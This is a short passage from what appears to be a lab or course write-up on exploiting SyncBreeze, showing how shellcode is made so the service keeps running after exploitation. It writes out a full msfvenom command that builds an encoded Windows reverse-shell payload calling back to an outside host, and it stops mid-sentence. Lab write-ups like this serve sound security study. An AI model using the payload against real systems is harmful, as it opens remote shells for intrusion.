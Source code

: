 1.  Update the exploit so that SyncBreeze still runs after exploitation.

This was avoided by using the _ExitThread_ API by generating the shellcode via the following command:

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.233 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`

As we already included the "EXITFUNC=thread" in 